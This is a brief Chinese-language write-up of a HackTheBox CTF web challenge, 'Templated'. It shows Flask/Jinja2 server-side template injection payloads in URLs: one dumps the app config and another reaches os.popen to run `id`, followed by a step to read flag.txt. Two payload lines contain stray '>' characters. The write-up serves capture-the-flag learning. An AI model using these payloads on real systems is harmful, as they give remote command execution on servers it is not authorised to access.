 ```yaml
---
title: Templated @ HACKTHEBOX Challeges Web
tags: ctf
---
```


flask/jinja2 SSTI模板注入

```http
http://IP:PORT/{{config>}}
http://IP:PORT/{{request.application>.__globals__.__builtins__.__import__('os').popen('id').read()}}
```

执行`id`的poc

```http

http://IP:PORT/{{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}

```

然后就是查看目录，查看flag.txt内容
